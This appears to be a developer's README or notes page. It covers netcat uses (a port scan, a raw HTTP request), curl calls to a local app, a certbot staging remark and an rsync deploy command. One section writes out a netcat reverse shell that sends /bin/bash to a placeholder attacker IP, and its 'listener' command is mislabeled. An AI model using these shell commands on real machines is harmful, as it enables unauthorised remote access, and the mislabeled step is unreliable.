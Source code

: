 
### **5. Scan for Open Ports on a Remote Host**
```sh
nc -z -v <hostname or IP> 20-1000
```
Scans ports 20 to 1000 and lists the open ones.

---

### **6. Establish a Reverse Shell (for Penetration Testing)**
#### On Attacker Machine (Listening Mode):
```sh
nc -l -p 4444 -e /bin/bash
```
#### On Victim Machine (Initiate Connection):
```sh
nc <Attacker_IP> 4444 -e /bin/bash
```
The attacker gains a shell on the victim's machine.

---

### **7. Send HTTP Request Using netcat**
```sh
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```
Sends an HTTP request to `example.com` and prints the response.

---

Netcat is a versatile tool useful for networking, troubleshooting, and penetration testing.

```sh
curl -X GET "http://node-app:8080/about"
```


```sh
curl -X POST "http://node-app:8080/post"
```

## STAGING in nginx certbot environment

1 means we use letsencrypt testing envriroment issue certificate, 0 means production cerficates are limited in this production envriroment

```sh
rsync -avz --exclude="**/node_modules/" --exclude=".git" -e "ssh -i ~/Documents/practice-projects/aws/docker-node.pem" . ubuntu@13.201.227.214:/var/www/docker-learn
```


